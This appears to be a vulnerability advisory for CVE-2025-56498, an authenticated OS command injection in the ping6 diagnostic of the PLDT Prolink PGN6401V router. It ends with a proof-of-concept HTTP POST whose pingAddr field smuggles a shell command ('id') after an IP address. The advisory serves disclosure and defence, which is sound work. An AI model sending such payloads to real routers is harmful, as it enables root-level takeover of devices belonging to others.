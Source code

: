 # CVE-2025-56498: OS Command Injection in PLDT Prolink PGN6401V Router

## Basic Information

| **Field** | **Value** |
| :--- | :--- |
| **CVE ID** | [CVE-2025-56498](https://www.cve.org/CVERecord?id=CVE-2025-56498) |
| **Title** | OS Command Injection in `ping6.asp` via `pingAddr` parameter |
| **Vendor** | PLDT / Prolink |
| **Product** | PLDT WiFi Router (Prolink PGN6401V) |
| **Affected Version** | Firmware V8.1.2 (other versions likely affected) |
| **Vulnerability Type** | CWE-78: OS Command Injection |
| **Impact** | Remote Code Execution (RCE) with root privileges |
| **CVSS Score** | Pending NVD Analysis |
| **Discoverer** | Jorge Patrick S. Rubio |

## Overview
An OS command injection vulnerability has been identified in the web management interface of the PLDT-supplied Prolink PGN6401V WiFi router. The vulnerability allows an authenticated attacker to execute arbitrary system commands with the highest privileges (`root`), leading to a complete compromise of the device.

## Vulnerability Details
The vulnerability resides in the IPv6 diagnostic utility of the router's web interface. The `ping6.asp` page submits user-controlled input from the `pingAddr` parameter via a POST request to `/boaform/formPing6`. This input is not properly sanitized before being passed to a system shell command, allowing for injection of arbitrary commands using shell metacharacters.

*   **Affected Component:** `ping6.asp` page and the `/boaform/formPing6` form handler.
*   **Vulnerable Parameter:** `pingAddr`
*   **Web Server:** Boa/0.93.15

## Proof of Concept (PoC)
An authenticated attacker can send a crafted HTTP POST request to exploit this vulnerability.

**Request:**
```http
POST /boaform/formPing6 HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Cookie: [VALID_ADMIN_SESSION_COOKIE]
Content-Length: 87

pingAddr=192.168.1.1%3Bid%3B&wanif=65535&go=+Go&submit-url=%2Fping6.asp
```

## References
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)  
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
- [PortSwigger Web Security Academy: OS Command Injection](https://portswigger.net/web-security/os-command-injection)  
